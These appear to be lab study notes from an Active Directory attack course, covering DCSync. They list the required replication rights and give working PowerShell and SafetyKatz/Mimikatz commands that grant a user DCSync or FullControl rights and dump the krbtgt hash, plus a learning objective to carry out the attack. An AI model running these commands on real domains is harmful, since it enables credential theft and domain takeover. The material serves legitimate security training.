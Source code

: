 > Noisy - detect by MDI because an user other than dc is running dcsync

The permissions the user must have to execute DCSync:
```
- Replicating Directory Changes
- Replicating Directory Changes All
- Replicating Directory Changes in Filtered Set (in some cases)
```

**DCsync**:
```powershell
C:\AD\Tools\SafetyKatz.exe “lsadump::dcsync /user:dcorp\krbtgt” “exit”
```

**Add FullControl rights**:
```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights All -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**Using ActiveDirectory Module and RACE**:
```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -Right GenericAll -Verbose
```

**Add rights for DCSync**:
```powershell
Add-DomainObjectAcl -TargetIdentity 'DC=dollarcorp,DC=moneycorp,DC=local' -PrincipalIdentity student1 -Rights DCSync -PrincipalDomain dollarcorp.moneycorp.local -TargetDomain dollarcorp.moneycorp.local -Verbose
```

**Using ActiveDirectory Module and RACE**:
```powershell
Set-ADACL -SamAccountName studentuser1 -DistinguishedName 'DC=dollarcorp,DC=moneycorp,DC=local' -GUIDRight DCSync -Verbose
```

**Execute DCSync**:
```powershell
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```
or
```powershell
C:\AD\Tools\SafetyKatz.exe "lsadump::dcsync /user:dcorp\krbtgt" "exit"
```


Learning Objective 12

- Check if studentx has Replication (DCSync) rights.
- If yes, execute the DCSync attack to pull hashes of the krbtgt user.
- If no, add the replication rights for the studentx and execute the DCSync attack to pull hashes of the krbtgt user.



## ACLs - Security Descriptors
